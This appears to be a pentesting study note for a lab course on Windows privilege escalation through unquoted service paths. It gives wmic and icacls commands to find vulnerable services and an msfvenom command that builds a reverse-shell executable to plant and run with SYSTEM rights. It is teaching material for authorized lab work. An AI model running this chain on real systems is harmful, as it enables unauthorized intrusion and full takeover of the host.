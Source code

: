 First find programs without quotes and with spaces:
```cmd
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

Verify that unsecure permissions are configured with icacls:
```cmd
C:\Program Files\Zen>icacls "C:\Program Files\Zen"
C:\Program Files\Zen BUILTIN\Users:(OI)(CI)(W)
                     NT SERVICE\TrustedInstaller:(I)(F)
                     NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                     NT AUTHORITY\SYSTEM:(I)(F)
                     NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                     BUILTIN\Administrators:(I)(F)
                     BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                     BUILTIN\Users:(I)(RX)
                     BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                     CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
```

Upload a reverse shell created with msfvenom:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=445 -f exe -o zen.exe
```

Then restart the service so it is executed from your reverse shell:



Another interesting attack vector that can lead to privilege escalation on Windows operating systems revolves around _unquoted service paths_. We can use this attack when we have write permissions to a service's main directory and subdirectories but cannot replace files within them. Please note that this section of the module will not be reproducible on your dedicated client. However, you will be able to use this technique on various hosts inside the lab environment.

As we have seen in the previous section, each Windows service maps to an executable file that will be run when the service is started. Most of the time, services that accompany third party software are stored under the C:\\Program Files directory, which contains a space character in its name. This can potentially be turned into an opportunity for a privilege escalation attack.

When using file or directory paths that contain spaces, the developers should always ensure that they are enclosed by quotation marks. This ensures that they are explicitly declared. However, when that is not the case and a path name is unquoted, it is open to interpretation. Specifically, in the case of executable paths, anything that comes after each whitespace character will be treated as a potential argument or option for the executable.

For example, imagine that we have a service stored in a path such as C:\\Program Files\\My Program\\My Service\\service.exe. If the service path is stored _unquoted_, whenever Windows starts the service it will attempt to run an executable from the following paths:

```c
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```

In this example, Windows will search each "interpreted location" in an attempt to find a valid executable path. In order to exploit this and subvert the original unquoted service call, we must create a malicious executable, place it in a directory that corresponds to one of the interpreted paths, and name it so that it also matches the interpreted filename. Then, when the service runs, it should execute our file with the same privileges that the service starts as. Often, this happens to be the NT\\SYSTEM account, which results in a successful privilege escalation attack.

For example, we could name our executable Program.exe and place it in C:\\, or name it My.exe and place it in C:\\Program Files. However, this would require some unlikely write permissions since standard users do not have write access to these directories by default.

It is more likely that the software's main directory (C:\\Program Files\\My Program in our example) or subdirectory (C:\\Program Files\\My Program\\My service) is misconfigured, allowing us to plant a malicious My.exe binary.

Although this vulnerability requires a specific combination of requirements, it is easily exploitable and a privilege escalation attack vector worth considering.